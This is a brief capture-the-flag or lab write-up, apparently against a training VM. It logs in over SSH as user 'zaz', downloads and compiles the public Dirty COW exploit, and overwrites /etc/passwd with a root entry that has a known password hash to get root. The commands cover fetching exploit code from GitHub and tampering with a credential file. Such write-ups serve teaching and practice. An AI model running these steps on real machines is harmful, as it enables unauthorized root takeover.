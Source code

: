 # writeup4

Connect with zaz:\
*reminder password: 646da671ca01bb5d84dbb5fb2238dc8e*
```
$ ssh zaz@192.168.56.102
```

## Another Dirty cow
```
$ cd /tmp
$ curl https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c --output cow.c
$ gcc -pthread cow.c -o cow
```
This program can modify a file, so we try to modify the file `/etc/passwd` to change the root password.\
password : `p`
```
$ ./cow /etc/passwd "root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash"
$ su root
$ whoami
root
```

The end !
